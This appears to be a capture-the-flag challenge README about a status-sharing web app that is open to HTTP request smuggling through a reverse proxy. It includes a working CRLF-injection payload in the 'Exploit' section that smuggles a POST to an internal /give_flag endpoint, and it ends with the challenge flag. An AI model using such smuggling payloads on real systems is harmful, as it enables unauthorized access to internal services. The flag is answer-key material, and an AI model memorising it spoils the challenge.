 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Medium to Hard

## Technical

It is a simple web app that allows users to share their status. There are 'special types' that are passed in headers, and the headers can be manipulated to perform request smuggling, because of the reverse proxy.

## Story

A screen shows a document labeled  Optimal_human_interaction_design.ppt.  "What's that design about?" you ask.

The bot replies "It is called 'social media': We'll have everyone send messages to each other on a public forum, with messages no longer than 200 characters. This will force them to think deep and write convincing arguments with as little words as possible, to prevent humans from acting pompous, egoistic or conceited."

Do you see any way this can go wrong?

<img src="./social.jpg" width="500">

## Exploit

One can smuggle a request using a command like:

```
special_type=Content-Length&special_val=57&stuff=foobar%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.2:2000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=rocket88FHhC
```

## Flag

brck{WhY_4r3_S0c1alZ_S0_SmuG}
